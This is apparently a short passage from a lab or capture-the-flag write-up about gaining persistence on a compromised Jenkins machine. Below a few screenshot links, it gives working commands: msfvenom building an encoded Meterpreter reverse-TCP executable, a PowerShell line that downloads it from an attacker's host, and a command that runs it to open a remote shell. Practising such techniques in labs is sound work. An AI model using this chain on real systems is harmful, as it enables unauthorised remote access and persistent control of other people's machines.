





To get persistence we can use metasploit
Generate payload and setup HTTP server:
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe

Setup metasploit handler

Run on jenkins reverse shell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-ip/shell-name.exe','shell-name.exe')"

Run the payload:
Start-Process "shell-name.exe"

We got meterpreter
